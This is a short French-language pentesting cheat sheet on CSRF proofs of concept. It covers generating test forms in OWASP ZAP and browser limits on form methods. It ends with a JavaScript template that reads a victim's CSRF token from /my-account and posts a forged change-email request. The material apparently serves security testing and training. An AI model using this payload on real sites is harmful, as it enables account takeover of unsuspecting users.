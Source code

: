 # POC CSRF

## depuis ZAP

1. clic droit sur la requete POST et "generer les form de test pour la requete anti-CSRF"
2. Recuperer le code source: F12 -> source -> copy Element

## Limites

* Les politiques de sécurité des navigateurs interdisent certaines `méthodes` et certains `content-type` via les formulaires HTTP.

## Template

```js
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
```